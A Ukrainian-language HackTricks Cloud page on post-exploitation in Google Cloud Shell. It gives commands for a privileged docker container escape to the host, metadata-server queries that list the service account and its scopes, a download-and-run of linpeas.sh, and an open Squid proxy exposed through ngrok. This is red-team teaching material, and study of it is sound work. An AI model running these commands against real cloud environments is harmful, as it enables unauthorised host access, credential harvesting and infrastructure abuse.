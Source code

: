 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Для отримання додаткової інформації про Cloud Shell перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Зверніть увагу, що Google Cloud Shell працює всередині контейнера, ви можете **легко втекти на хост** виконавши: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Це не вважається вразливістю з боку Google, але це дає вам ширше уявлення про те, що відбувається в цьому середовищі.

Більше того, зверніть увагу, що з хоста ви можете знайти токен облікового запису служби:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

З наступними обсягами:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Перелічте метадані за допомогою LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Після використання [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) з токеном облікового запису служби **не було виявлено жодних дозволів**...

### Використовуйте його як проксі

Якщо ви хочете використовувати вашу інстанцію google cloud shell як проксі, вам потрібно виконати наступні команди (або вставити їх у файл .bashrc):
```bash
sudo apt install -y squid
```
Просто щоб ви знали, Squid - це HTTP проксі-сервер. Створіть файл **squid.conf** з наступними налаштуваннями:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
скопіюйте файл **squid.conf** до **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Нарешті запустіть службу squid:
```bash
sudo service squid start
```
Використовуйте ngrok, щоб зробити проксі доступним ззовні:
```bash
./ngrok tcp 3128
```
Після запуску скопіюйте tcp:// url. Якщо ви хочете запустити проксі з браузера, рекомендується видалити частину tcp:// і порт, а порт помістити в поле порту налаштувань проксі вашого браузера (squid є http проксі-сервером).

Для кращого використання при запуску файл .bashrc повинен містити наступні рядки:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Інструкції були скопійовані з [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Перевірте цю сторінку на інші божевільні ідеї для запуску будь-якого програмного забезпечення (бази даних і навіть Windows) у Cloud Shell.

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
